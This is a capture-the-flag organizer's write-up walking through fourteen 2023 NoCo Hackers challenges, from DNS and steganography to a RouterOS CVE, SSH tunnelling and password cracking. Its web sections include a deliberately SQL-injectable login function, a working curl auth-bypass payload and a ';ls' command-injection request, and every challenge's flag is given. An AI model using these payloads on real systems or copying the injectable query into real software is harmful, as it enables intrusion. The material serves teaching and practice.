





Before I start writing challenges for the 2025 edition of the NoCo Hackers annual CTF, I wanted to look back at some of the challenges I've written in the past. 2023 was the first annual NoCo Hackers CTF (it was also the year NoCo Hackers was founded!), in 2023 I was the sole contributor, so this writeup encompasses every challenge from that year. 

For the NoCo Hackers CTFs, my goal has been to keep things fun, interesting and educational with a set of challenges that should be solvable by most participants. 

# Overview

- [CTF Infrastructure](#ctf-infrastructure) - The physical and virtual components that went into the CTF
- [Challenge #1 Just TXT Me](#challenge-1-just-txt-me) - A gimmie challenge featuring DNS
- [Challenge #2 Invisible Ink](#challenge-2-invisible-ink) - A gimmie challenge featuring HTML
- [Challenge #3 Knock to open the path](#challenge-3-knock-to-open-the-path) - Port knocking
- [Challenge #4 A CVE to Find You See](#challenge-4-a-cve-to-find-you-see) - A challenge built around a Mikrotik vulnerability
- [Challenge #5 Breaking and Entering](#challenge-5-breaking-and-entering) - An introduction to SSH tunnelling
- [Challenge #6 What a PNG](#challenge-6-what-a-png) - A basic steg challenge
- [Challenge #7 Only 8-bits, eh?](#challenge-7-only-8-bits-eh) - A slightly more complicated steg challenge
- [Challenge #8 Noise on the Wire](#challenge-8-noise-on-the-wire) - Extracting data from a pcap
- [Challenge #9 All my queries are belong to you](#challenge-9-all-my-queries-are-belong-to-you) - SQL Injection
- [Challenge #10 RCE?! On my server?! In this economy?!](#challenge-10-rce-on-my-server-in-this-economy) - Command Injection
- [Challenge #11 thnks fr th mmrs](#challenge-11-thnks-fr-th-mmrs) - A reverse engineering challenge
- [Challenge #12 These bytes don't lie](#challenge-12-these-bytes-dont-lie) - Data obfuscation
- [Challenge #13 John lost his drive ¯\\\_(ツ)_/¯](#challenge-13-john-lost-his-drive-ツ_) - A two in one cracking challenge
- [Challenge #14 Ping Patterns](#challenge-14-ping-patterns) - Steganography but with packets

# CTF Infrastructure

The challenges were a mix of downloadable files and hosted challenges. All the hosted challenges ran as virtual machines on my home lab. The VMs used for the CTF were placed behind PfSense VMs configured to route all traffic through a wireguard tunnel provided by [hoppy.network](https://hoppy.network). In turn the VMs were connected to my host-isolated guest network.



Physically, the lab consisted of some pretty basic hardware. Two proxmox hosts, one with an i5 3570K / 16GB RAM / 1TB storage and another with an i7 6700T / 32GB RAM / 1TB Storage. A physical Mikrotik RB3011 (with a vulnerable version of RouterOS) and a Mikrotik css326-24g-2s+rm switch. 



In addition to the self-hosted infrastructure, I also used a 1vCPU, 1GB RAM digital ocean droplet to host [CTFd](https://ctfd.io/).

# Challenge #1 Just TXT Me

The first challenge was just a TXT record containing the flag.

```
┌─(bjames@llpt03)-[~]
└─$ dig TXT nocohackers.com +short
"v=spf1 include:spf.efwd.registrar-servers.com ~all"
"flag{67856802eaa171df696813bcdd34f4b1}"
```

# Challenge #2 Invisible Ink

Description: 

> There is a flag hidden somewhere on this website, can you find it?
>
> Scope: ctf.nocohackers.com

The CTF's site only had a few pages. I just stuck an invisible element in one of the pages: 

```
<p style="visibility: hidden">flag{dba0787460c82a806bece8b0ba829054}</p>
```

# Challenge #3 Knock to open the path

Description: 

> Travel back in time to find the key: 
> 
> The year the IMPs first spoke to each other. 
> 
> The birth year of the Grandmother of Computing. 
> 
> The year the world learned how to Smash the Stack for Fun and Profit.
> 
> Scope: netchallenge.nocohackers.com

The challenge title is a reference to port knocking. Port knocking is a technique used to prevent a port from being reachable until connections have been attempted on other ports. On my mikrotik rb3011, this configuration looks like the following:

```
add action=add-src-to-address-list address-list=1969 address-list-timeout=10s chain=input dst-port=1969 protocol=tcp

add action=add-src-to-address-list address-list=port:1815 address-list-timeout=10s chain=input dst-port=1815 protocol=tcp src-address-list=port:1969

add action=add-src-to-address-list address-list=secure address-list-timeout=1h chain=input dst-port=1996 log=yes protocol=tcp src-address-list=port:1815
```

1. Attempting a connection on port 1969 (the year IMPs and ARPANET came online) puts you on a list opening access to port 1815 (The year Ada Lovelace was born). 
2. Attempting a connection on port 1815 puts you on a list opening up access to port 1996 (The year Aleph One wrote Smashing the Stack for Fun and Profit). 
3. Attempting a connection on port 1996 gives you access to netchallenge.nocohackers.com:80 where the flag is hosted. 

The easiest way to knock is to use Ncat. 

```
┌─(bjames@llpt03)-[~]
└─$ nc -w1 netchallenge.nocohackers.com 1969
Ncat: TIMEOUT.
┌─(bjames@llpt03)-[~]
└─$ nc -w1 netchallenge.nocohackers.com 1815
Ncat: TIMEOUT.
┌─(bjames@llpt03)-[~]
└─$ nc -w1 netchallenge.nocohackers.com 1996
Ncat: Connection refused.
┌─(bjames@llpt03)-[~]
└─$ curl netchallenge.nocohackers.com -s | grep flag
            <p>flag{591ea8da35bf2e407e1280bf1929f53e}</p>
```

# Challenge #4 A CVE to Find You See

Description:

> Solving "Knock and the path will open" is a prerequisite to this challenge. Once you have access to the administrative ports of the router, there is a way in and it doesn't involve credential stuffing.
The exploit itself will make the flag visible, as well as some username/password combinations. Note that the admin access can only login from a specific IP. You'll need to proceed using the lower privilege account, admin access to the router is not required for any challenges in this CTF.

netchallenge.nocohackers.com:80 is the web config page for the Mikrotik rb3011. This page tells us the router is running RouterOS 6.30. A quick web search yields CVE-2018-14847, along with PoCs such as [this one](https://github.com/BasuCert/WinboxPoC) (running random PoCs from the internet is generally ill advised, but this one is legit). 

Running the PoC outputs a list of username and password combinations. One of which contains a flag. 

# Challenge #5 Breaking and Entering

Description:

> This flag requires first completing "Knock to open the path" and "A CVE to find, you see".
> The flag exists on a webserver behind the router. Can you find a way to steal it?

This challenge can be solved with port forwarding.

```
ssh user@netchallenge.nocohackers.com -L 8080:192.168.88.10:80 -N  -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa
```
* `-L` forward requests on localhost:8080 to 192.168.88.10:80 via the SSH connection
* `-N` don’t spawn a shell on the remote host
* `-oHostKeyAlgorithms=+ssh-rsa` allow use of ssh-rsa 
* `-oPubKeyAcceptedAlgorithms=+ssh-rsa` accept the use of ssh-rsa

The webserver itself can be found by checking ARP tables on the mikrotik or reading the config and ping sweeping the LAN.

Once we start forwarding requests to 192.168.88.10:80 we can retrieve the flag via cURL:

```
┌─(bjames@llpt03)-[~]
└─$ curl localhost:8080 -s | grep flag
      <h1><strong>flag{71e221acdcc451ecf79ef8edf0d95dbf}</strong></h1>
```

# Challenge #6 What a PNG

Description:

> The flag is hidden in the attached image. Good luck!

The image from the challenge can be found [here](https://github.com/bjames/2023NoCoHackersHolidayCTF/blob/main/steg/whatapng.png). In the case of this challenge, the flag is just hidden in the last few bytes of the image. Since PNG files use a trailer to denote the end of image data, this doesn't impact how the image is rendered. 

```
┌─(bjames@llpt03)-[~/Downloads]
└─$ hexdump -C whatapng.png | tail
001c06b0  3b 10 81 e7 00 00 ed 91  76 c5 cf f9 5d 06 80 a5  |;.......v...]...|
001c06c0  c2 c6 3e cf 78 bf 5d 28  72 5d b1 8f d6 fb db 15  |..>.x.](r]......|
001c06d0  86 58 cf ae 04 da 43 be  fc ee fa 8b 30 6f 63 48  |.X....C.....0ocH|
001c06e0  f5 92 b8 0e 80 6b ed f2  b3 5d 15 c2 a6 28 9b 6b  |.....k...]...(.k|
001c06f0  d2 d5 71 2a 10 a7 98 0e  a3 0c 80 ff 07 99 07 30  |..q*...........0|
001c0700  aa 1a bc 5f 1e 00 00 00  00 49 45 4e 44 ae 42 60  |..._.....IEND.B`|
001c0710  82 66 6c 61 67 7b 66 65  31 33 35 63 63 63 66 62  |.flag{fe135cccfb|
001c0720  62 30 63 39 66 37 30 36  30 34 64 65 63 35 66 65  |b0c9f70604dec5fe|
001c0730  34 39 32 32 33 37 7d                              |492237}|
001c0737
```

# Challenge #7 Only 8-bits, eh?

Description

> I hope you know your way around [GIMP](https://www.gimp.org/) better than I do. The flag is in the attached image.

The image for this challenge was created with the following process:
1. Image was converted to 255 colors via GIMP
2. Image > Mode > Indexed
3. Generated a QR code containing the flag using qrencode
4. Used color picker to select one of the darker areas of the image
5. Used bucket fill to make the QR code a slightly different color
6. Pasted/rotated the QR code

One way to retrieve the QR code is using GIMP as shown below:


# Challenge #8 Noise on the Wire

Description

> You've managed to sniff some packets, there is a flag inside. Can you find it?

For this challenge, I created a bunch of random files using a [bash script](https://github.com/bjames/2023NoCoHackersHolidayCTF/blob/main/noise/filegen.sh). In plain english it:

1. Creates random file names from `/usr/dict/share/words`
2. Creates empty photos and appends random data to give them non-zero sizes
3. Creates plaintext files using `fortune`
4. Compresses all the files with gzip

Then I manually add a flag to one of the images using gimp. After that, I transferred the files via Python SimpleHTTPServer and took a packet capture.

Solving the challenge can be done as follows:

1. Use wireshark to extract all files from the PCAP (File -> Export Objects)
2. Extract all files from pcap: gunzip -r .
3. Notice there are three types of files: Photos, binaries and plaintext
4. Search all files for "flag": `grep -ra flag{ ./` (-r searches recursively, -a treats binary files as plaintext)
5. Note that no strings contained in the files match
6. Focus search on only the photos
7. Eventually find the flag in the file called “marbleizing”

# Challenge #9 All my queries are belong to you



This challenge is a pretty vanilla SQL injection to auth bypass. The webpage has input validation, but only on the client side. Using curl allows auth bypass. The vulnerable code is copied below (full source available [here](https://github.com/bjames/2023NoCoHackersHolidayCTF/tree/main/web/it_dashboard)):

```
def check_password(username, password) -> str | None:
    """
    Check if the given username/password combination is valid.

    This function is purposely vulnerable to SQL injection.
    """
    conn = sqlite3.connect(f"file:{DB_FILE}?mode=ro", uri=True) # open the database in read-only mode
    c = conn.cursor()
    c.execute(f"SELECT * FROM users WHERE username='{username}' AND password='{password}'")
    result = c.fetchone()
    print(result)
    conn.close()

    return result
```

Specifically: `curl 'http://webchallenge.nocohackers.com/login' -X POST --data-raw "username=' OR '1'='1&password=' OR '1'='1" -c -` causes our database query to become:

```
SELECT 
    * 
FROM users 
WHERE 
    username='' OR '1'='1' AND password='' OR '1'='1'
```

Which matches all rows due to the injected `OR '1'='1'`s. In return, we get a session cookie for the user "Alice".

 

# Challenge #10 RCE?! On my server?! In this economy?!

Once you've gained access to the IT dashboard in "All my queries are belong to you", you're greeted with a page containing a pretty basic command injection vulnerability. 



In this case, the flag is quite easy to find once you have RCE. Interacting with the dashboard, it becomes very apparent that we are executing [shell commands](https://github.com/bjames/2023NoCoHackersHolidayCTF/blob/main/web/it_dashboard/project/modules/dashboard_scripts.py) based on user input. All that is needed to execute code on the system is to add a `;` then the command you want to run. 

```
[bjames@llpt01 ~]$ curl 'http://webchallenge.nocohackers.com/ping' -X POST -H 'Cookie: noco_hackers_2023_session=cb6a9e9ff9d79cf3665eaab34c3f63c4ee760282261e9a59041e08441a605b72' --data-raw 'host=8.8.8.8;ls'
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>Login</title>
        <link rel="stylesheet" href="/static/css/style.css">
    </head>
    <body>
        <h1>IT Dashboard</h1>

        <pre class="code">PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=111 time=34.3 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=111 time=33.9 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=111 time=35.0 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=111 time=35.4 ms

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3006ms
rtt min/avg/max/mdev = 33.862/34.616/35.383/0.591 ms
Dockerfile
docker-compose.yml
flag{d76bebbf741d89109db22e492196c04}
nginx
project
requirements.txt
session.db
user.db
wsgi.py
```

# Challenge #11 thnks fr th mmrs

Description:

> The attached x86_64 ELF binary is a subnet calculator. Can you extract the flag contained within?

Two relevant functions are copied below (full source [here](https://github.com/bjames/2023NoCoHackersHolidayCTF/blob/main/binary/subnet.c)):

```
void bunniesArentJustCuteLikeEverybodySupposes(char *obfuscatedFlag, int length, char key) {

    char a[] = "They've got them hoppy legs and twitchy little noses!";
    char b[] = "And what's with all the carrots?";
    char c[] = "What do they need such good eyesight for anyway?";
    char d[] = "Bunnies, bunnies!";
    char e[] = "It must be bunnies!";

    for (int i = 0; i < length; i++) {
        obfuscatedFlag[i] ^= key;  // XOR again with the same key to get original character
    }
}

int main(int argc, char ** argv){

  // flag{4722850fba3f38a317857d608888802b}
  char obfuscatedFlag[] = {0xcc, 0xc6, 0xcb, 0xcd, 0xd1, 0x9e, 0x9d, 0x98, 0x98, 0x92, 0x9f, 0x9a, 0xcc, 0xc8, 0xcb, 0x99, 0xcc, 0x99, 0x92, 0xcb, 0x99, 0x9b, 0x9d, 0x92, 0x9f, 0x9d, 0xce, 0x9c, 0x9a, 0x92, 0x92, 0x92, 0x92, 0x92, 0x9a, 0x98, 0xc8, 0xd7, 0xaa, 0x0a};
  int length = sizeof(obfuscatedFlag) / sizeof(obfuscatedFlag[0]);

  bunniesArentJustCuteLikeEverybodySupposes(obfuscatedFlag, length, 0xAA);
```

This fairly simple reversing challenge can be solved with either static or dynamic analysis. In the video below we see how to solve it using [pwndbg](https://github.com/pwndbg/pwndbg/).


# Challenge #12 These bytes don't lie

Description:

> This flag was "encrypted" in a weak manner. The bytes output from the encryption program follow. 
>
> 0x080302081356075a064a43080e53595d515b5c5c16465d5a05595d55520f0441475957070a15
> 
> Can you decipher it?

We know flags always start with “flag{“ and end with “}”. We also know XORing is a common obfuscation method. Exclusive OR (XOR) is defined as a bitwise OR where the output is only “1” if the inputs are different. A truth table follows:

| A | B | A∨B |
|---|---|-----|
| 0 | 0 | 0   |
| 0 | 1 | 1   |
| 1 | 0 | 1   |
| 1 | 1 | 0   |

Looking at this you can see that XOR'ing input A against the output will yield input B. 

| input | mask | input ∨ mask     |
|-------|------|------------------|
| 0x08  | 0x66 (ascii f) | 0x6e (ascii n)   |
| 0x03  | 0x6c (ascii l) | 0x6f (ascii o)   |
| 0x02  | 0x61 (ascii a) | 0x63 (ascii c)   |
| 0x08  | 0x67 (ascii g) | 0x6f (ascii o)   |
| 0x13  | 0x7b (ascii {)| 0x68 (ascii h)   |

From this we can guess the key is `nocohackers` repeated for the entirety of the key. 

# Challenge #13 John lost his drive ¯\\\_(ツ)_/¯

Description:

> You found a flash drive labeled "John - IT". It's got a single ZIP archive on it, password protected so it probably contains something good.

_Note: if you want to follow along, the archive can be found [here](https://github.com/bjames/2023NoCoHackersHolidayCTF/blob/main/found_drive/work_stuff.zip)_

This is a multipart challenge. To find the flag we must:

1. Crack the ZIP archive
2. Reverse the 2nd Juniper type 9 password found in the JunOS base config file

## Part 1 Cracking the ZIP archive

I used [JTR](https://www.openwall.com/john/), but [hashcat](https://hashcat.net/hashcat/) would also work. 

1. Use zip2john to generate hashes for john to crack
2. Crack the hashes using john

```
[bjames@llpt01 work_stuff_working]$ zip2john work_stuff.zip > work_stuff.hash
[bjames@llpt01 work_stuff_working]$ ~/john/run/john work_stuff.hash
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Loaded hashes with cost 1 (HMAC size) varying from 784 to 403727
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
0g 0:00:00:13 DONE 1/3 (2023-12-14 09:58) 0g/s 33502p/s 33503c/s 33503C/s Chili1900..Md1900
Proceeding with wordlist:/home/bjames/john/run/password.lst
Enabling duplicate candidate password suppressor
colorado1!       (work_stuff.zip/trap_card.png)
colorado1!       (work_stuff.zip/base_config_ios.txt)
colorado1!       (work_stuff.zip/base_config_junos.txt)
colorado1!       (work_stuff.zip/vegan_rocky_mountain_chili.md)
colorado1!       (work_stuff.zip/base_config_ios_xr.txt)
colorado1!       (work_stuff.zip/rocky_mountain_chili.md)
6g 0:00:03:49 DONE 2/3 (2023-12-14 10:02) 0g/s 7307p/s 33861c/s 33861C/s mikeyq..yours4eva
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
[bjames@llpt01 work_stuff_working]$
```

## Part 2 Cracking the JunOS Type 9 Password

base_config_ios.txt and base_config_junos.txt both contain passwords obfuscated with a Vigenere cipher. This cipher has been broken since [at least 1863](https://en.wikipedia.org/wiki/Vigen%C3%A8re_cipher) and Cisco has been aware of tools to reverse them since [at least 1995](https://www.cisco.com/c/en/us/support/docs/security-vpn/remote-authentication-dial-user-service-radius/107614-64.html). The vulnerable password types are:

* Cisco Type 7
* Juniper Type 9

There are websites and tools that can do this for you (especially in the case of Cisco Type 7). Although last time I tried the obvious result for JunOS Type 9 it didn't work, so I found and forked a Python2.7 decoder and updated it for Python3. The original is [here](https://github.com/mhite/junosdecode) and the Python3 fork is [here](https://github.com/bjames/junosdecode). 

```
┌─(bjames@llpt03)-[~/Downloads] 
└─$ python3 junosdecode.py '$9$9Rgxtu1MWxN-w1R4ZGjq.z369O1ylKXxd9A7-bwg45QzFAp0BIEhr.PO1Rhrl24oGHqQz6uBIjHmTFnCAKMWXxdYgojk.aJFn6/tp7-dw4aZUjmT3'
junos password decrypter
Original python 2.7 version by matt hite
lazily converted to python 3 by Brandon James
original perl version by kevin brintnall

encrypted version: $9$9Rgxtu1MWxN-w1R4ZGjq.z369O1ylKXxd9A7-bwg45QzFAp0BIEhr.PO1Rhrl24oGHqQz6uBIjHmTFnCAKMWXxdYgojk.aJFn6/tp7-dw4aZUjmT3
$9$9Rgxtu1MWxN-w1R4ZGjq.z369O1ylKXxd9A7-bwg45QzFAp0BIEhr.PO1Rhrl24oGHqQz6uBIjHmTFnCAKMWXxdYgojk.aJFn6/tp7-dw4aZUjmT3
decrypted version: flag{8f96ea92081ab1523f6dc61b46510721}
```

# Challenge #14 Ping Patterns

Description

> Putting the M in ICMP
> Scope: webchallenge.nocohackers.com

This was based loosely on a data exfil toy I wrote called ["absurd ICMP"](https://github.com/bjames/absurd_icmp) (I should do a post on this, it's neat). Absurd ICMP shoves data into ICMP's 2-byte sequence field. In the case of Absurd ICMP the data is encoded in the echo requests coming from the client, so the behavior is a bit different. In this challenge, the server ignores the sequence numbers sent by the client and responds with something completely different.



Upon pinging webchallenge.nocohackers.com, it is pretty apparent that something is going on with the sequence numbers. A tool like ngrep can be used to visualize the contents a little better. 


Using a similar technique to the one described in challenge #12, you can discover the data is obfuscated by XORing the sequence number with the leftmost bytes of the ICMP payload. An example decoder can be found [here](https://github.com/bjames/2023NoCoHackersHolidayCTF/blob/main/ICMP/decoder.py).

